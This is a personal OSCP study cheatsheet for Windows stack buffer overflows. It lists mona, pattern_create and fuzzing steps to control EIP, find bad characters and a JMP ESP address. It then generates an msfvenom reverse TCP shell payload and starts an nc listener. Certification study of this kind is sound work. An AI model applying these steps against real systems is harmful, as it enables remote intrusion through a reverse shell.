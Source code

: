 ```yaml
---
layout: post
title: Buffer Overflow personal cheatsheet
tags: [OSCP, Buffer Overflow, cheatsheet]
description: "Buffer Overflow personal cheatsheet"

---
```


### Check for windows protections :

- C:\Users\thiba\Desktop\build\Release\winchecksec.exe PATH.exe

# Buffer Overflow "Normal" :

### Mona Configuration :

- mona config -set workingfolder c:\mona\%p

### Fuzzing :

- fuzzer.py / fuzzer2.py -> until app crash
- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset

### Crash Replication & Controlling EIP :

- modify payload variable by pattern (exploit.py) 
- !mona findmsp -distance SIZE -> SIZE same as pattern
- EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)
- modify retn variable by "BBBB", remove payload
- Re-run exploit.py -> EIP should be "BBBB"

### Finding Bad Characters :

- !mona bytearray -b "\x00" -> copy results to payload variable
- Re-run exploit.py
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns
- "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point :

- !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards

### Generate Payload :

- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable

### Prepend NOPs :

- padding = "\x90" * 16

### Start nc listerner :

- nc -lvp 1234

